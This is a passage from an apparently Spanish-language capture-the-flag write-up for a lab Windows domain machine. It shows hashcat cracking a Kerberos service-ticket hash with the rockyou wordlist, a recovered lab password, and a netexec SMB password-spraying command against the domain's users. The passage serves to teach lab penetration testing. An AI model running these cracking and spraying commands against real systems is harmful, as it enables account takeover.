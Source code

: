 
Una vez lo tenemos, comprobamos a qué código interno pertenece en hashcat este tipo de hash (``krb5tgs$23$``)

``hashcat --help | grep -i "kerberos"``
![27](Images/27.png)


Ahora que conocemos el código interno de ``hashcat``, se lo pasamos junto con ``rockyou`` como diccionario.

``hashcat -m 13100 hsmithtgs /usr/share/wordlists/rockyou.txt --force``
![28](Images/28.png)

Anda, curiosamente es la misma contraeña que para Fsmith. Esto quiere decir que si hubiesemos hecho ``password spraying`` contra los usuarios del dominio, también podríamos haberla sacado:

``netexec smb 10.10.10.175 -u realusers.txt -p 'Thestrokes23' --continue-on-sucess``
![29](Images/29.png)

